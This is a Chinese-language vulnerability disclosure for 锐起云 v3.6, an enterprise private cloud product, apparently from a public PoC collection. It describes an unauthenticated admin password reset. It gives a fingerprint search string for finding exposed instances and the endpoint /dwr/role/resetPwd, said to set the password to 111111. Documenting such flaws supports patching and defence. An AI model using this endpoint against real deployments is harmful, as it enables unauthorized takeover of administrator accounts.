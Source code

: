 # 

# 锐起云 resetPwd 登陆绕过漏洞

## 漏洞描述

锐起云是一款企业私有云，旨在帮助企业建立私有云存储和管理系统，帮助企业实现集中管理文档、强化数据安全、打造信息互通、数据驱动的协同办公环境。提升工作效率的同时，使数据真正为企业掌控，全程不改变用户操作习惯，是全新一代企业云盘的代表。锐起云存在前台未授权修改密码登陆后台漏洞，攻击者可以通过访问特定接口重置管理员密码。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登录页面

![image-20231115100316838](images/image-20231115100316838.png)

poc，将密码重置为111111

```
/dwr/role/resetPwd
```

![image-20231115100422870](images/image-20231115100422870.png)
